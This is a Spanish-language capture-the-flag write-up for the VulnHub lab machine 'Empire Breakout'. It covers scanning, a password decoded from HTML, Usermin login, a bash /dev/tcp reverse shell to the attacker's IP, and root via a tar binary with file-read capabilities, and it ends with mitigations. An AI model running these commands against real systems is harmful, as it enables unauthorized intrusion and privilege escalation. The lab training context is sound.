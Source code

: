 # **RESUMEN EMPIRE BREAKOUT**
OBJETIVO: 192.168.131.129 (Empire Breakout)
TIEMPO: 45 minutos

## SECUENCIA DE ATAQUE

### FASE 1: PREPARACIÓN
mkdir ~/Desktop/vulnhub && cd ~/Desktop/vulnhub
ping -c 4 192.168.131.129  # Verificación de conectividad
Resultado: Objetivo accesible.

### FASE 2: RECONOCIMIENTO
nmap -sC -sV -p- --open -oN escaneo 192.168.131.129
Puertos identificados:
•	80/tcp - Apache httpd (página web)
•	139/tcp - Samba smbd 4.6.2
•	445/tcp - Samba smbd 4.6.2
•	10000/tcp - MiniServ 1.981 (Webmin)
•	20000/tcp - MiniServ 1.830 (Usermin)

### FASE 3: EXPLOTACIÓN INICIAL
Análisis web: Navegador → http://192.168.131.129
•	Página Apache por defecto encontrada
•	Inspección código fuente HTML

Extracción de credenciales:
•	Comentario HTML: <!-- Don't worry this is safe to share with you, my access is encoded -->
•	Código Brainfuck localizado al final del HTML
•	Decodificación: decode.fr → Contraseña obtenida: .2uqPEfj3D<P'a-3

echo ".2uqPEfj3D<P'a-3" > clave  # Almacenamiento seguro

Enumeración de usuarios:
enum4linux -a 192.168.131.129
Usuario identificado: cyber

### FASE 4: ACCESO INICIAL

Autenticación:
•	Panel Usermin: https://192.168.131.129:20000
•	Credenciales: cyber / .2uqPEfj3D<P'a-3
•	ACCESO CONCEDIDO

Primera flag:
ls          # Exploración directorio
cat user.txt # Flag user obtenida

### FASE 5: SHELL REVERSA
Preparación listener:
ifconfig                    # IP local: 192.168.0.11
nc -lvp 443                # Listener puerto 443

Ejecución desde Command Shell del panel:
bash -i >& /dev/tcp/192.168.0.11/443 0>&1
Shell reversa establecida como usuario cyber

### FASE 6: ESCALADA DE PRIVILEGIOS

Enumeración de privilegios:
sudo -l                     # Sin resultados
getcap -r / 2>/dev/null    # CRÍTICO: /home/cyber/tar cap_dac_read_search=ep

Identificación objetivo:
cd /var/backups
ls -la                     # Archivo: .old_pass.bak (propiedad root)

Explotación capabilities:
cd /home/cyber
./tar -cf clave.tar /var/backups/.old_pass.bak  # Compresión con capabilities
tar -xvf clave.tar                              # Extracción
cd var/backups
cat .old_pass.bak                               # Contraseña root: Ts&4&YurgtRX(=~h

Escalada final:
su root                    # Password: Ts&4&YurgtRX(=~h
script /dev/null -c bash   # Estabilización shell
cd /root
cat root.txt              # Flag root obtenida

## VULNERABILIDADES CRÍTICAS EXPLOTADAS

### CREDENCIALES EN CÓDIGO FUENTE
•	Vector: Contraseña Brainfuck en HTML
•	Impacto: Acceso directo a panel administrativo
•	Criticidad: MÁXIMA

### CAPABILITIES MAL CONFIGURADAS
•	Vector: CAP_DAC_READ_SEARCH en binario tar
•	Impacto: Lectura arbitraria de archivos sistema
•	Criticidad: ALTA

### ARCHIVO BACKUP CONTRASEÑA ROOT
•	Vector: /var/backups/.old_pass.bak
•	Impacto: Escalada directa privilegios root
•	Criticidad: MÁXIMA

### PANEL ADMINISTRATIVO EXPUESTO
•	Vector: Usermin puerto 20000 sin restricciones
•	Impacto: Superficie ataque administrativa
•	Criticidad: MEDIA

## HERRAMIENTAS EMPLEADAS
Reconocimiento: nmap, navegador web
Enumeración: enum4linux, decode.fr
Acceso: Panel web Usermin
Persistencia: Netcat (shell reversa)
Escalada: getcap, tar (capabilities)

## MEDIDAS DE MITIGACIÓN

### CRÍTICAS (0-24 horas)
•	Eliminar credenciales de código fuente HTML
•	Remover capability CAP_DAC_READ_SEARCH del binario tar
•	Eliminar archivo /var/backups/.old_pass.bak
•	Cambiar contraseña root inmediatamente

### URGENTES (24-72 horas)
•	Restringir acceso paneles Webmin/Usermin por IP
•	Auditar todos binarios con capabilities especiales
•	Revisar ubicaciones backup archivos sensibles

### IMPORTANTES (1-2 semanas)
•	Implementar gestión segura secretos
•	Configurar monitoreo accesos administrativos
•	Establecer proceso revisión código fuente

## EVIDENCIAS
•	Flag Usuario: Capturada desde /home/cyber/user.txt
•	Flag Root: Capturada desde /root/root.txt
•	Credenciales: Usuario 'cyber' y contraseña root documentadas
•	Archivos: Escaneo nmap y evidencias almacenadas en ~/Desktop/vulnhub/

## EVALUACIÓN
•	TIEMPO: 45 minutos
•	DIFICULTAD: Baja
•	DETECCIÓN: No
•	El objetivo presenta varios vectores de ataque de nivel crítico que facilitan comprometerla rápidamente, destacando la combinación de credenciales expuestas y configuraciones inseguras.

## MV
https://www.vulnhub.com/entry/empire-breakout,751/

<div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/HD-wallpaper-star-wars-empire-battlefront-games-gaming-ps4-star-wars-starwars-xbox.jpg" width="550" alt="Star Wars Battlefront">
</div>
